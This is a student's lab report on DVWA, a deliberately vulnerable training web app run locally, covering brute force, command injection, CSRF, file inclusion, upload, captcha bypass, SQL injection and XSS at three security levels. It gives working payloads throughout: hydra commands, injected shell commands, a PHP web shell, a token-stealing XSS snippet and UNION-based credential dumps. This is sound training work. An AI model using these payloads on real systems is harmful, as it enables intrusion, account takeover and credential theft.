# DVWA Security Lab Report

## Brute Force
Reference: https://medium.com/@waeloueslati18/exploring-dvwa-a-walkthrough-of-the-brute-force-challenge-part-1-d38241ee81da
### Security Level: Low 
Payload: `username = admin' OR '1'='1` <br>
Result: Logged in <br>
Image: <br>

Explanation why it worked: The source code does not do input sanitation so an SQL injection was possible. The OR '1'='1, makes it so that the internal login query no longer checks for a match in the password, just for a match in the username. <br>
Explanation why it failed at higher levels: They carry out input sanitation.<br>

### Security Level: Medium 
Approach: Use hydra to brute force common passwords from rockyou list via command:
`hydra -l admin -P resources/rockyou.txt -s 8080 127.0.0.1 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=oq786ppdqcpj74a6fq1ikg6c47;security=medium:F=Username and/or password incorrect."` <br>
Payload: `username = admin; password = password` <br>
Result: Logged in <br>
Image: <br>


Explanation why it worked: The password was weak so it was in a list of common passwords which we could brute force. Moreover, the server let us make many attempts through one non-changing session ID so we could bruteforce. <br>
Explanation why it failed at higher levels: The random sleep/wait seems to cause some threads to not see the failure message + some fail due to Anti-CSRF checks not being handled properly by the Hydra command.<br>

### Security Level: High
Approach: Use hydra to brute force common passwords from rockyou list via command:
`hydra -l admin -P resources/rockyou.txt -t 1 -s 8080 127.0.0.1 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=oq786ppdqcpj74a6fq1ikg6c47;security=high:F=Username and/or password incorrect."`<br>
Payload: `username = admin; password = password` <br>
Result: Logged in <br>
Image: <br>



Explanation why it worked: With one thread running, the random delay did not prevent us from differentiating between passing and failing passwords. <br>
Explanation why it failed at higher levels: It still seems to work.<br>

## Command Injection
### Security Level: Low 
Payload: `127.0.0.1; ls` <br>
Result: Able to run commands on system and via contents of filesystem. <br>
Image: <br>

Explanation why it worked: The input was not being sanitised and run directly. Adding the semi-colon creates 2 separate commands, so the first one still pings and the second one does whatever we want it to. <br>
Explanation why it failed at higher levels: Input sanitation removes the `;` carried out.

### Security Level: Medium
Payload: `asda || ls` <br>
Result: Able to run commands on system and via contents of filesystem. <br>
Image: <br>

Explanation why it worked: The `||` operator runs the second command only if the first fails. By providing an invalid input to ping (`asda`) we ensure it fails so that our custom follow-up command works. <br>
Explanation why it failed at higher levels: Input is properly sanitised and removes these operators too.

### Security Level: High
Payload: `|ls` <br>
Result: Able to run commands on system and via contents of filesystem. <br>
Image: <br>

Explanation why it worked: The `| ` character had an extra space after. So if we just write it without space, it won't get replaced, allowing us to use it for command injection. <br>
Explanation why it failed at higher levels: The extra space issue was properly dealt. Actually, the input was checked to ensure that is numbers only.

## CSRF
### Security Level: Low 
Payload: `url: http://localhost:8080/vulnerabilities/csrf/?password_new=pwned&password_conf=pwned&Change=Change#` <br>
Result: Able to change admin password through link <br>
Image: <br>


Explanation why it worked: The API for password reset did not consider how it was being triggered. <br>
Explanation why it failed at higher levels: The API checks that it is being triggered by the same site. 

### Security Level: Medium
Payload: `curl -v --referer "http://localhost:8080/vulnerabilities/csrf/" "http://localhost:8080/vulnerabilities/csrf/?password_new=pwn&password_conf=pwn&Change=Change#" -b "PHPSESSID=r0mns51mv27k5ot51g8fea50h1; security=medium"` <br>
Result: Password gets updated <br>
Image: <br>

Explanation why it worked: We set the referrer header ourselves to be the one expected, allowing us to get through. <br>
Explanation why it failed at higher levels: A unique CSRF token is required for the request.

### Security Level: High
Payload: On low difficulty, on XSS (Stored) I created an entry with name: `hack` and contents:
```
<a href="javascript:void(0)" onclick="(async()=>{let r=await fetch('../csrf/'),h=await r.text(),t=h.split(`'user_token' value='`)[1].split(`'`)[0],u=`../csrf/?password_new=hacked&password_conf=hacked&Change=Change&user_token=${t}`,z=await fetch(u);console.log(await z.text())})()">Exploit</a>
```
The payload had to be compacted as the input had a length limit. Now we can go back to high difficulty. Then when the user clicks this link, the payload fetches the csrf page, gets the user_token, and creates a new fetch request to change the password with the obtained user token.
Result: Password gets updated to `hacked`.
Image: <br>

Explanation why it worked: When the user clicks on the button on the stored XSS, a fetch request is made using the users cookies, so the server gives the corresponding user_token, which the xss sends back along with updated password request. <br>
Explanation why it failed at higher levels: At a higher level, the user's password is needed, which can not be spoofed, even if we hijack the user's session.

## File Inclusion
### Security Level: Low 
Payload: `url: http://localhost:8080/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../../../../var/www/html/hackable/flags/fi.php` <br>
Result: Decoding the result (base64) we get PHP with the following quotes:
1. Bond. James Bond
2. My name is Sherlock Holmes. It is my business to know what other people don't know.
3. Romeo, Romeo! Wherefore art thou Romeo?
4. The pool on the roof must have a leak.
5. The world isn't run by weapons anymore, or energy, or money. It's run by little ones and zeroes, little bits of data. It's all just electrons. <br>

Image: <br>
Explanation why it worked: Any file could be passed for inclusion and they would be run regardless. <br>
Explanation why it failed at higher levels: There were checks for certain file types

### Security Level: Medium
Payload: `http://localhost:8080/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=....//....//....//....//....//var/www/html/hackable/flags/fi.php` <br>
Result: Hit the same php as before which gave the same quotes <br>
Image: <br> 
Explanation why it worked: The string was only replacing `../` pattern once, so if after replacing, a new `../` pattern forms, it would be processed. <br>
Explanation why it failed at higher levels: There were more strict checks of paths, to specifically start with the term `file`, which means we also can't use filter. <br>

### Security Level: High
Payload: `url: http://localhost:8080/vulnerabilities/fi/?page=file:///var/www/html/hackable/flags/fi.php` <br>
Result: Can access quotes: 1, 2, 4, 5 via inspect element on the resulting page. Unable to access quote 3 as php can't be converted this time. <br>
Image: <br> 
Explanation why it worked: Browsers load files with `file:///` and since our target is a file, we can prepend this to the start of the path to access our target. <br>
Explanation why it failed at higher levels: The impossible setup checks for exact match from list of files, now patterns, so no vulnerability. <br>

## File Upload
### Security Level: Low 
Payload: Upload file `hack.php` with code:
```
<?php system($_REQUEST["cmd"]); ?>
```
And run by entering `url: http://127.0.0.1:8080/hackable/uploads/hack.php?cmd=ls /` <br>
Result: We can execute any function we want. In this case, we get a list of files in the root folder <br>
Image: <br>

Explanation why it worked: There are no checks on the file type so anything can be uploaded and then accessed later. <br>
Explanation why it failed at higher levels: They use checks on file content.

### Security Level: Medium
Payload: Upload a file `hack2.php` with same contents as before with: <br>
`curl -v -F "uploaded=@hack2.php;type=image/jpeg" -F "Upload=Upload" -b "PHPSESSID=r0mns51mv27k5ot51g8fea50h1; security=medium" http://localhost:8080/vulnerabilities/upload/`
Result: File uploaded and accessible/runnable at: `http://127.0.0.1:8080/hackable/uploads/hack2.php?cmd=ls%20/` <br>
Image: <br>

Explanation why it worked: We are modifying the type in the HTTP request which tricks the server. <br>
Explanation why it failed at higher levels: It doesn't just check type as per HTTP request, but it also checks for image metadata.

### Security Level: High
Payload: We modify our php file to give a magic byte header which makes the server treat it as an image. In particular, we have `hack3.jpg` as:
```php
GIF89a;
<?php system($_REQUEST["cmd"]); ?>
```
Can be run on (low difficulty):
`url: http://localhost:8080/vulnerabilities/fi/?page=../../hackable/uploads/hack3.jpg&cmd=ls%20/` <br>
Result: File uploaded successfully. Can not be triggered directly due to `.jpg` extension but can be triggered through file inclusion <br>
Image: <br>


Explanation why it worked: The magic bytes make the php file look like a jpg file, giving a response on imagesize function, so the server accepts it as a valid file. <br>
Explanation why it failed at higher levels: It recasts the file to an image removing any artifical metadata.

## Insecure Captcha
### Security Level: Low 
Payload: In firefox network tools, modify request with body: `step=2&password_new=pwn&password_conf=pwn&g-recaptcha-response=&Change=Change` <br>
Result: Password updated <br>
Image:  <br>
Explanation why it worked: The captcha process is broken into two steps and the second step checks nothing from the first. <br>
Explanation why it failed at higher levels: There is a state variable that tries to check if captcha passed in the first stage.

### Security Level: Medium
Payload: Request body as: `step=2&password_new=pwn&password_conf=pwn&g-recaptcha-response=&Change=Change&passed_captcha=true` <br>
Result: Password updated<br>
Image:  <br>
Explanation why it worked: The state variable checking for passing of captcha was on client side. <br>
Explanation why it failed at higher levels: It checks actual captcha response value.

### Security Level: High
Payload: Set POST message body to: `step=1&password_new=pwn&password_conf=pwn&g-recaptcha-response=hidd3n_valu3&user_token=755b4a20e1fe651010ecd25fdb3e3e00&Change=Change`<br>
Result: Password changed <br>
Image:  <br>
Explanation why it worked: There were some values used in testing to bypass captcha, however, they were still usable in deployed web app.<br>
Explanation why it failed at higher levels: Captcha is single step and the testing key is removed.

## SQL Injection
### Security Level: Low 
Payload: `0' UNION SELECT first_name, password FROM users #` <br>
Result: All usernames and passwords in system are dumped. <br>
Image:  <br>
Explanation why it worked: Input was not treated for characters that break queries. <br>
Explanation why it failed at higher levels: Input is passed through a sanitising function.

### Security Level: Medium
Payload: Modify POST request body to be: `id=0 UNION SELECT first_name, password FROM users&Submit=Submit`<br>
Result: All usernames and passwords in the system are dumped. <br>
Image:  <br>
Explanation why it worked: The POST request was not validated to be from the dropdown content and the input was not already inside quotes.<br>
Explanation why it failed at higher levels: It fails in impossible because there the input has to be a number, therefore it can not be a string that breaks the SQL.

### Security Level: High
Payload: `0' UNION SELECT first_name, password FROM users #`<br>
Result: On the original page, all usernames and passwords in the system are dumped. <br>
Image:  <br>
Explanation why it worked: There was no cleaning of input. <br>
Explanation why it failed at higher levels: It ensures input must be a number therefore it can not be a string that breaks the SQL.

## SQL Injectin Blind
### Security Level: Low 
Payload: Try multiple posts to determine length of name and then actual characters of name. Refer to `resources/sql-blind.py`<br>
Result: Database version: `10.1.26-MariaDB-0+deb9u1`<br>
Image: <br>
Explanation why it worked: Because we could easily escape the query and create our own yes/no query. This yes/no query would eventually help us determine the database version.<br>
Explanation why it failed at higher levels: Input is passed through a sanitising function.

### Security Level: Medium
Payload: Same as above except now we use POST requests and pass it in as data payload rather than just url. Refer to `resources/sql-blind.py`
Result: Database version: `10.1.26-MariaDB-0+deb9u1` <br>
Image: <br>
Explanation why it worked: The POST request was not validated to be from the dropdown content and the input was not already inside quotes. <br>
Explanation why it failed at higher levels: It fails in impossible because there the input has to be a number, therefore it can not be a string that breaks the SQL.

### Security Level: High
Payload: Same as above except now we set id in cookies. Refer to `resources/sql-blind.py`<br>
Result: Database version: `10.1.26-MariaDB-0+deb9u1` <br>
Image: <br>
Explanation why it worked: There was no validation on ID cookie format. <br>
Explanation why it failed at higher levels: It ensures input must be a number therefore it can not be a string that breaks the SQL.

## Weak Session IDs
### Security Level: Low 
Generation method: Increment from 0 <br>

### Security Level: Medium
Generation method: Unix timestamp of session creation time<br>

### Security Level: High
Generation method: Increment from 0 and then apply md5 hash<br>

## XSS (DOM)
### Security Level: Low 
Payload: `url: http://127.0.0.1:8080/vulnerabilities/xss_d/?default=%22%3E%3C/select%3E%3Cimg%20src=1%20onerror=alert(document.cookie)%3E`<br>
Result: Cookies are shown in an alert<br>
Image: <br>
Explanation why it worked: There was no check on the URL parameters being sent by the user.<br>
Explanation why it failed at higher levels: The backend checks that the value must be from a set of whitelisted values.

### Security Level: Medium
Payload: `url: http://127.0.0.1:8080/vulnerabilities/xss_d/?default=%22%3E%3C/select%3E%3Cimg%20src=1%20onerror=alert(document.cookie)%3E`<br>
Result: Cookies are shown in an alert<br>
Image: <br>
Explanation why it worked: The URL check was only against `<script>` tags, but there are other ways to trigger Javascript code inside a `document.write`.<br>
Explanation why it failed at higher levels: The backend checks that the value must be from a set of whitelisted values.

### Security Level: High
Payload: `url: http://127.0.0.1:8080/vulnerabilities/xss_d/?default=English#%3Cscript%3Ealert(document.cookie)%3C/script%3E`<br>
Result: Cookies are shown in an alert<br>
Image: <br>
Explanation why it worked: The PHP does not read beyond the #, but the Javascript does. <br>
Explanation why it failed at higher levels: The browser encodes the URL parameters to stop it from functioning as a script.

## XSS (Reflected)
### Security Level: Low 
Payload: Name:`<script> alert(document.cookie) </script>`<br>
Result: The cookies are output in an alert. <br>
Image: <br>
Explanation why it worked: There was no check on the input being provided.<br>
Explanation why it failed at higher levels: Checks against `<script>` tags.

### Security Level: Medium
Payload: Name: ``<br>
Result: The cookies are output in an alert. <br>
Image: <br>
Explanation why it worked: The URL check was only against `<script>` tags, but there are other ways to trigger Javascript code inside a `document.write`.<br>
Explanation why it failed at higher levels: The special characters in the input are encoded to stop it from functioning as a script.


### Security Level: High
Payload: Name: ``<br>
Result: The cookies are output in an alert. <br>
Image: <br>
Explanation why it worked: The URL check was only against `<script>` tags, but there are other ways to trigger Javascript code inside a `document.write`.<br>
Explanation why it failed at higher levels: The special characters in the input are encoded to stop it from functioning as a script.

## XSS (Stored)
### Security Level: Low 
Payload: Name: `rick roll`, Message: `<script> window.location="https://www.youtube.com/watch?v=dQw4w9WgXcQ" </script>`<br>
Result: On loading XSS (Stored) page, redirected to youtube video.<br>
Image: <br>
Explanation why it worked: There is no check on the input. It is inserted directly into the database and page without any preprocessing.<br>
Explanation why it failed at higher levels: Special characters in message are encoded to stop it from functioning as a script.

### Security Level: Medium
Payload: Name: ``, Message: `rick rolled`<br>
Result: On loading XSS (Stored) page, redirected to youtube video.<br>
Image: <br>
Explanation why it worked: The check on the name is weak. Only checks for exact match of `script` tag.<br>
Explanation why it failed at higher levels: Special characters in message are encoded to stop it from functioning as a script.

### Security Level: High
Payload: Name: ``, Message: `go back`<br>
Result: On loading XSS (Stored) page, redirected to home page.<br>
Image: <br>
Explanation why it worked: The check on the name was only against `<script>` tags, but there are other ways to execute Javascript. <br>
Explanation why it failed at higher levels: Special characters in both name and message are encoded to stop it from functioning as a script.

## Template
### Security Level: Low 
Payload: <br>
Result: <br>
Image: <br>
Explanation why it worked: <br>
Explanation why it failed at higher levels:

### Security Level: Medium
Payload: <br>
Result: <br>
Image: <br>
Explanation why it worked: <br>
Explanation why it failed at higher levels:

### Security Level: High
Payload: <br>
Result: <br>
Image: <br>
Explanation why it worked: <br>
Explanation why it failed at higher levels:


## Security Analysis
1. Why does SQL Injection succeed at Low security?
2. What control prevents it at High?
3. Does HTTPS prevent these attacks? Why or why not?
4. What risks exist if this application is deployed publicly?
5. Map each vulnerability to its OWASP Top 10 category.


## Docker Inspection


## Bonus Setup
dvwa behind nginx proxy